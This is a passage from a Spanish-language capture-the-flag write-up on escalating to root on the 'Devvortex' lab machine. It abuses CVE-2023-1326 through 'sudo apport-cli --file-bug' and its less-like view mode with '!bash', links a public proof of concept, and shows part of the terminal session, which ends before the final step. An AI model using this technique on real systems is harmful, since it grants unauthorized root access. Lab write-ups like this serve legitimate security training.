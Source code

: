 Revisando por Internet posibles maneras de escalar nuestros privilegios a través de este privilegio sobre el binario, nos encontramos con el siguiente PoC.

{% embed url="https://github.com/diego-tella/CVE-2023-1326-PoC" %}

La idea principal de esta escalada de privilegios, es realizar un reporte random y en el último paso cuando se genere el reporte, ingresar la opción `V` para acceder a un modo de visualización (similar al comando less) y salir de este modo a través de `!bash` y convertirnos en usuario `root`.

Verificamos que logramos disponer de una bash de `root` y visualizar la flag de **root.txt**.

```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli --file-bug

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

Press any key to continue... !
..dpkg-query: no packages found matching xorg
..................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
```